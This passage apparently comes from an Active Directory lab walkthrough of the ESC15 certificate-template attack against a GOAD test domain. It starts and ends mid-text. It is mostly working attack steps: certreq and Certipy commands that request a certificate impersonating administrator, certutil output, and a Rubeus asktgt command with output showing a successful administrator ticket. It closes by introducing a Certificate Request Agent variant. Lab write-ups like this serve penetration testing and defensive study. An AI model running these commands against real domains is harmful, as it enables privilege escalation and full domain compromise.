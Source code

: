 ```bash

$infContent | Out-File -FilePath "esc15.inf"
```

```bash
certreq -new -f esc15.inf esc15.req
certreq -submit -config "braavos.essos.local\ESSOS-CA" esc15.req

Certificate Request Processor: The request is taken under submission Request ID = 19
```

Method 2: Using Certipy v5.0+ (if available with ESC15 support)

`certipy req -u missandei@essos.local -p fr3edom -ca ESSOS-CA -template WebServer -dc-ip 192.168.56.12 -target braavos.essos.local -upn administrator@essos.local -key-size 2048`

The attack works because version 1 templates don't validate Application Policy extensions and Application Policies override Extended Key Usage when both are present

Retrieve the issued certificate:

`certreq -retrieve 19 esc15.cer`
`certreq -accept esc15.cer`

The issued certificate will contain both:
 - Original EKU: Server Authentication
 - Application Policy: Client Authentication (takes precedence)

Verify certificate content

```bash
certutil -dump esc15.cer | findstr -i "application\|enhanced"

Application Policies:
    [1]Application Policy:
         Policy Identifier=Client Authentication
         Policy Qualifier Info:
              Policy Qualifier Id=CPS
              Qualifier:
                   http://braavos.essos.local/CertEnroll/ESSOS-CA_CPS.html

Enhanced Key Usage:
    Server Authentication (1.3.6.1.5.5.7.3.1)

# Authenticate using certificate - Application Policy overrides EKU
Rubeus.exe asktgt /user:administrator /certificate:esc15.pfx /password:mimikatz

[*] Action: Ask TGT
[*] Using PKINIT with etype rc4_hmac and subject: CN=missandei, CN=Users, DC=essos, DC=local
[*] Certificate Application Policy overrides EKU: Client Authentication
[+] TGT request successful!
```

ESC15 can also be weaponized for Certificate Request Agent attacks. Create INF file for Certificate Request Agent capability:
